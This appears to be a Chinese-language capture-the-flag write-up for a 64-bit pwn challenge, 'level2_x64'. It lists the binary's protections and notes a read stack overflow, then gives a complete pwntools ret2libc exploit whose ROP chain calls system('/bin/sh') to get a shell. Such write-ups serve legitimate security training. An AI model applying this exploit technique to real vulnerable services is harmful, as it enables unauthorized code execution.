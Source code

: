 # 知识点

ret2libc



# 题目分析

1. 检查保护情况，64位程序，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    No RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，main函数直接调用后门函数，存在read栈溢出漏洞。

   ![ida1](./isset/ida1.png)

3. 继续分析，发现题目提供了system函数和/bin/sh字符串。直接ret2libc即可。

   ![ida2](./isset/ida2.png)



# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./level2_x64')
elf = ELF('./level2_x64')

system = elf.sym['system']
binsh = elf.search('/bin/sh').next()

pop_rdi = 0x4006b3
ret = 0x4004a1

payload = 'A' * 0x80 + 'deadbeef'
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system) + p64(0)
io.send(payload)

io.interactive()
```

